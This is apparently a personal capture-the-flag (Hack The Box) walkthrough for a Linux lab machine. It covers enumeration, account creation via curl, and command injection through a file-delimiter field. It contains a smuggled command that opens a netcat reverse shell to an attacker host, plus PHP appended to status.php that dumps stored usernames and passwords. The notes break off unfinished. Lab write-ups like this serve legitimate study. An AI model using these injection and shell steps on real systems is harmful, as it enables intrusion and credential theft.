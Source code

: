 ### Box Info
OS: Linux\
IP: 10.10.11.104

## Part I 

### Skills learned:
Curl/Python
CMD injection

### Enumeration
nmap -p- -A -oN Exploreprts.txt ${IP}
+ 22 OpenSSH
+ 80 Apache httpd 2.4.29 


### Dirb ${IP}/ -X .php
+ /accounts.php
    + Ability to create UN && PW            
+ /login.php
+ /status.php

### Step 1: User Account
+ Create account with curl request
  + curl -is -X POST -d "username=${UN}&password=${PW}&confirm=${PW}" ${IP}/accounts.php 
+ Login with new account:
  + Upload access, "MySQL server is online and connected", 3(2) registered admins, *sitebackup.zip*, User: m4lware
  + Management Menu -> Request Log Data: file delimeter

### Step 2: CMD Injection
+ inspect file delimeter
  + change comma to inlcude a nc shell
    + comma && nc -e /bin/sh ${AttackerIP} ${port#}
  + setup a listner shell : nc -lnp ${port#}

### Step 3: Shell
+ python -V
+ check https://github.com/crcirq32/Bash/blob/main/reverseshells.sh to upgrade shell
+ m4lwhere seems to house all permissions
  + Must access users from db to get more info on m4lwhere
    + append to status.php
    + printf("<?php\n$db = connectDB();\n$query = "SELECT username, password FROM accounts";\n$users = $db->query($query);\nif ($users->num_rows > 0) {\nwhile($row = mysqli_fetch_assoc($users)) {\nvar_dump($row);\n}\n}\n$db->close();") >> status.php

TODO: 10.10.11.104 Hung up - Stuck in limbo. Contact HTB
